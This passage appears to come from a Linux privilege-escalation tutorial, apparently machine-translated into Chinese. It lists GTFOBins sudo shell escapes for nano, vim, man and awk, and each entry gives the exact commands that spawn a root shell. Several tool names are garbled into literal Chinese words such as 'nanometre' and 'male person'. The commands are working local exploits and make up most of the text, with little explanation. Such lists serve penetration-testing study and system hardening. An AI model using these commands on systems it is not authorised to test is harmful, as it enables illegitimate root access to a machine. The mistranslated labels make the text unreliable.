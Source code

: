 **纳米**(【https://gtfobins.github.io/gtfobins/nano/】T21)

```
sudo nano
^R^X
reset; sh 1>&0 2>&0
```

![](img/07a9d6636315348a0bd2accf5bf2dc71.png)

维姆([https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/))

```
sudo vim -c ':!/bin/bash'
```

![](img/d0bd7d9f8c2eff1a26c8d9c5397ecf5d.png)

**男人**([https://gtfobins.github.io/gtfobins/man/](https://gtfobins.github.io/gtfobins/man/))

```
sudo man man
!/bin/bash
```

![](img/e2644d42d62980912539974f4cc93334.png)

**awk**([https://gtfobins.github.io/gtfobins/awk/](https://gtfobins.github.io/gtfobins/awk/))

```
sudo awk 'BEGIN {system("/bin/bash")}'
```

![](img/4a3c4c636fd93f70f2e423d124f9cb3e.png)
